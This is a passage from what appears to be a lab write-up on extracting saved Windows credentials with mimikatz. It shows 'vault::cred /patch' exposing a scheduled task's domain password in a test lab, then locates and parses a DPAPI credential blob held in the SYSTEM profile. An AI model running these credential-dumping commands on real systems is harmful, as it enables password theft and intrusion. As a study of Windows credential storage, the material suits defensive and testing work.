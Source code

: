 ```
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential :
Attributes : 0
```

This time, Windows prevent credential exposition with `2 - domain_password` type.

![We must go deeper](http://www.quickmeme.com/img/e7/e7633bedf897bb24ce668ac9c5df6bf88a58ff7e114d27606a756f4c4888a3f1.jpg)

_Make tests before production_
```
mimikatz # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{813565C4-C976-4E78-A1CA-8BDAE749E965} / <NULL>
UserName   : LAB\admin
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : waza1234/a
Attributes : 0
```
Bingo

## `DPAPI`ways
`SYSTEM` stores its saved credentials in `%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials`
```
C:\>dir /a %systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
 Le volume dans le lecteur C n’a pas de nom.
 Le numéro de série du volume est 9432-997D

 Répertoire de C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

03/01/2017  22:31    <DIR>          .
03/01/2017  22:31    <DIR>          ..
03/01/2017  22:31               550 AA10EB8126AA20883E9542812A0F904C
```
Let's see what is inside:
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000046 - 70
  szDescription      : Données d’identification locales
[...]
```
The masterkey needed to decrypt credential blob has the GUID: `{5d4e7e0d-d922-4783-8efc-9319b45b1c9a}`.
